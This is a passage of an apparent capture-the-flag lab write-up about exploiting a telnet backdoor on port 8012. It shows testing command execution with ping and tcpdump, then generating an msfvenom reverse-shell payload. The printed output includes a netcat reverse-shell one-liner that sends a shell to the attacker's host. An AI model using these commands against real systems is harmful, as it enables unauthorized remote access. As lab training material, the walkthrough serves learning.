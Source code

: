 
### Task 7 - Exploiting Telnet

Now that the port running `telnet` and more info on it is discovered, we can try to access it.
{% capture code %}{% raw %}telnet <ip> 8012{% endraw %}{% endcapture %} {% include code.html code=code%}

Basic navigation can be done from `telnet` as below.
{% capture code %}{% raw %}Trying <ip>...
Connected to <ip>.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
.HELP
.HELP: View commands
 .RUN <command>: Execute commands
.EXIT: Exit
.RUN ls{% endraw %}{% endcapture %} {% include code.html code=code%}

Start a tcpdump listener locally in another session.
{% capture code %}{% raw %}tcpdump ip proto \\icmp -i <tun0|eth0>{% endraw %}{% endcapture %} {% include code.html code=code%}

An output similar to below will be obtained.
{% capture code %}{% raw %}tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes{% endraw %}{% endcapture %} {% include code.html code=code%}

In the telnet session, try to ping local ip to see if connection can be established and commands can be executed.
{% capture code %}{% raw %}.RUN ping -c1 <local-ip>{% endraw %}{% endcapture %} {% include code.html code=code%}

The ping packets can be seen in tcpdump listener session.
An output similar to below will be obtained.
{% capture code %}{% raw %}23:16:09.761762 IP <ip> > <hostname>: ICMP echo request, id 1017, seq 1, length 64
23:16:09.761827 IP <hostname> > <ip>: ICMP echo reply, id 1017, seq 1, length 64{% endraw %}{% endcapture %} {% include code.html code=code%}

A reverse shell payload can be generated using msfvenom and can be exploited from listening netcat session.
{% capture code %}{% raw %}msfvenom -p cmd/unix/reverse_netcat lhost=<local-ip> lport=4444 R{% endraw %}{% endcapture %} {% include code.html code=code%}

The basic options used in msfvenom.
- `-p` - payload
- `lhost` - local IP address
- `lport` - local port to listen
- `R` - export payload in raw format

An output similar to below will be obtained.
{% capture code %}{% raw %}[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 89 bytes
mkfifo /tmp/gqbn; nc <local-ip> 4444 0</tmp/gqbn | /bin/sh >/tmp/gqbn 2>&1 ; rm /tmp/gqbn{% endraw %}{% endcapture %} {% include code.html code=code%}
